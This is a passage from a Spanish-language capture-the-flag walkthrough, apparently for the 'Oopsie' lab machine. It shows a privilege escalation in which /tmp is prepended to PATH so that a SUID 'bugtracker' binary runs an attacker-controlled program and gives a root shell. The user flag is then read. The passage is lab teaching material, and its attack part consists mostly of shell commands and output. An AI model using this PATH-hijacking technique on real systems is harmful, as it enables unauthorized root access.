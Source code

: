 Para aprovechar esto, podemos agregar el directorio /tmp a la variable PATH. PATH es una variable de entorno en sistemas operativos tipo Unix, DOS, OS/2 y Microsoft Windows, especificando un conjunto de directorios donde se encuentran los programas ejecutables.

```bash
robert@oopsie:/tmp$ export PATH=/tmp:$PATH
export PATH=/tmp:$PATH
robert@oopsie:/tmp$ echo $PATH
echo $PATH
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games

```

Ahora si ejecutamos el binario de nuevo consigo ser root.

```bash
robert@oopsie:/tmp$ bugtracker
bugtracker

------------------
: EV Bug Tracker :
------------------

Provide Bug ID: 59
59
---------------

# whoami
whoami
root
# 
```
<br>

<div style="text-align: center;">
    <b><span style="color: #98FB98;">USER FLAG</span></b>
    <br>
    ---------------------------
</div>


```bash
root@oopsie:~# pwd
pwd
/home/robert
root@oopsie:~# ls
ls
user.txt
root@oopsie:~# more user.txt
more user.txt
f2c74ee8db7983851ab2a96a44eb7981
```

<div style="text-align: center;">
    <b><span style="color: #98FB98;">ROOT FLAG</span></b><br>
    ---------------------------
</div>
